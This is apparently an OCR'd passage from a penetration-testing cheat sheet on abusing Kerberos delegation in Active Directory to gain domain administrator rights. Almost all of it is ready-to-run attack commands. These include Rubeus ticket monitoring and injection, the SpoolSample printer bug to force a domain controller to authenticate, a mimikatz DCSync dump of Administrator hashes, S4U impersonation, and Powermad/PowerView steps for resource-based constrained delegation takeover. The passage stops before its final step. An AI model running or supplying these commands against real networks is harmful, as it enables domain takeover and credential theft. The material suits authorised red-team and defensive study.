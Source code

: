 ##### Unconstrained Delegation
When we have admin rights on a machine with the `TrustedForDelegation` attribute we can abuse it in order elevate our privileges to domain admin.
Note: it can be used to compromise another forest if the 2 forests have bidirectional relations and `TGTDelegation` set to True (this can be checked with PowerShell Active Directory module and the command `Get-ADTrust -Filter *|fl`).
Goal: make a privileged user connect to our compromise machine.
```
# Monitoring incomings TGTs with rubeus:
.\rubeus.exe monitor /interval:2 /filteruser:DC01$

# Execute the printerbug to trigger the force authentication of the target DC to our machine (DC01 is compromised)
.\spoolsample.exe DC02.DOMAIN2.FQDN DC01.DOMAIN.FQDN

# Get the base64 captured TGT from Rubeus and inject it into memory:
.\rubeus.exe ptt /ticket:<base64_of_captured_ticket>

# Dump the hashes of the target domain using mimikatz:
.\mimikatz.exe "lsadump::dcsync /domain:DOMAIN2.FQDNM /user:DOMAIN2\Administrator" exit
```

##### Constrained Delegation
When a user owns the `msDS-AllowedToDelegateTo` attribute, we can abuse constrained delegation for the mentioned service and adding alternate services we takeover the object.
```
.\rubeus.exe s4u /user:<target_user> /rc4:<rc4_hash> /impersonateuser:<target_user(Administrator)> /msdsspn:cifs/<target_machine.DOMAIN.FQDN> /altservice:ldap,http,wsman,host,winrm,krbtgt,cifs /ptt

# We can get command execution with Invoke-Command for example
$sess = New-PSSession -computername target_machine.DOMAIN.FQDN
Invoke-Command -session $sess -ScriptBlock {whoami}
```

##### Resource-Based Constrained Delegation
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate a Domain Administrator.
```
# Use Powermad to create a new machine account
New-MachineAccount -MachineAccount <created_machine> -Password $(ConvertTo-SecureString '<machine_password>' -AsPlainText -Force) -Verbose

# Use PowerView and get the SID value of our new machine
$ComputerSid = Get-DomainComputer <created_machine> -Properties objectsid | Select -Expand objectsid

# Then by using the SID we have to build a ACE for the new created machine account
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over
Get-DomainComputer <target_machine> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Use rubeus to get the RC4 hash of the machine account
.\rubeus.exe hash /password:<machine_password>
# Or aes256
.\rubeus.exe hash /password:<machine_password> /domain:DOMAIN.FQDN /user:<created_machine$>
#extract the rc4_hmac/aes256_cts_hmac_sha1 value ==> <rc4_hash>

# Execute the impersonation and get a TGS as Domain Administrator for the service cifs on the DC
```